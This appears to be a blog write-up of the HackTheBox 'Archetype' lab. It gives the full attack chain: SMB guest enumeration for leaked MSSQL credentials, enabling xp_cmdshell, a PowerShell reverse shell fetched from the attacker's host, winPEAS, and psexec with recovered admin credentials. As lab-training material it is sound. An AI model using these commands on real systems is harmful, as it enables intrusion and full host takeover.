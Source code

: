 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](/assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](/assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](/assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe

# history 열람 administrator : MEGACORP_4dm1n!!
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](/assets/images/posts/2025-03-06-Archetype/6c6a769b01b337f5043407c95d2f9261_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/779e533c4fb09c41b3407c229dd160a4_MD5.jpeg)
![](/assets/images/posts/2025-03-06-Archetype/9781a5273a3edd4de922675970ed39f5_MD5.jpeg)

### impacket-psexec
```bash
# runas의 경우 reverse shell이 non-interactive 여서 Password 입력 불가
impacket-psexec administrator:MEGACORP_4dm1n\!\!@10.129.68.227
```
![](/assets/images/posts/2025-03-06-Archetype/b6f674ba7e741830131344c63efa0a6a_MD5.jpeg)
## End
![](/assets/images/posts/2025-03-06-Archetype/6440ee4900b98344e460390a8f1497a2_MD5.jpeg)
